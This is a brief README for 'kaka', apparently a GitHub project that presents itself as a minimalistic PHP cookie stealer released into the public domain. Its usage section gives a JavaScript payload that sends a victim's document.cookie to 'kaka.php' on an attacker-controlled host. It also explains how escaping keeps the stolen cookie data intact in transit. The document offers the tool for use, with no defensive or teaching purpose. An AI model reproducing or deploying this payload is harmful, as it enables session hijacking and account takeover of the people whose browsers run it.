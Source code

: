 kaka
----
Kaka is cookie in swedish. A minimalistic cookie stealer written in PHP.

Usage
-----
"http://host/kaka.php?c="+escape(document.cookie)  
	The escape function is used to prevent ampersand characters (&) from splitting the request into multiple GET variables.

Public domain
-------------
I hereby release this code into the [public domain](https://creativecommons.org/publicdomain/zero/1.0/).
